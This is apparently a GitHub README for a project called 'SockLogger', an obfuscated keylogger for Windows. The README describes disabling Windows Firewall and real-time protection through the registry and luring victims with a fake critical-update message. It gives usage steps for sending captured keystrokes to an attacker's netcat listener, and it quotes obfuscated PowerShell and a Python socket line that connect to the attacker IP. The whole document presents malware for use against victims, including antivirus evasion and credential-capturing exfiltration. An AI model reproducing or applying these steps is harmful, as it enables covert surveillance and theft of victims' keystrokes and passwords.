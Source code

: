 # SockLogger
A creative way to evade 'Real time protection' and 'Windows Firewall' on windows, and obtain victim key-strokes by obfuscate keylogger and using 'nc' on remote machine. While trying looking for a way to make a simple keylogger, thought it would be interesting to make an obfuscate keylogger which will executed upon a running .ps1 with a fake message update about critical problems using powershell ofcourse. Started to make a script which will make 3 things, but first it must run as Administrator privilege;
1. Turn off the Windows Firewall Center.
2. enject a malicious DWORD on the registry which will make the real time protection going down upon a reboot.
3. Disable the real time protection.
4. Save keystrokes on the C:\Windows\System32 directory and obtain it using a python to open a server on the victim machine [Port 2222].
5. When the the SockLogger-Obfuscate.pyw gets execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].

![1](https://user-images.githubusercontent.com/90532971/196167464-4af42a03-e099-4c1f-ac87-d8f5b1b7dd4f.png)


# Usage
I made a test on my local windows 10 x64  machine [ VICTIM ] and it works perfectly.
1. git clone the reposotory.
2. cd SockLogger.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 1, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone. try typing something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]

![fff](https://user-images.githubusercontent.com/90532971/196167908-15377efc-6201-4da1-a5a9-b2ef8ae23fb3.png)

# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it. 
<h3>Note: Change Machine IP in the .ps1/pyw script under the lines:</h3>
<pre>
${MAc`H`iNe} = ("{5}{2}{0}{3}{1}{4}"-f '://','.0.0.21','tp','10',':','ht') - .ps1 script
</pre>
<pre>
m.connect(("10.0.0.21", 8080)) - .pyw script
</pre>
in my case, the .ps1 was 10.0.0.21 on port 80, and the listener was on port 8080.<br>
please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public' directory

# Requirements
Victim must have python installed on computer (python3)<br>
Note: When script gets run, it will install using pip the 'pynput' package.
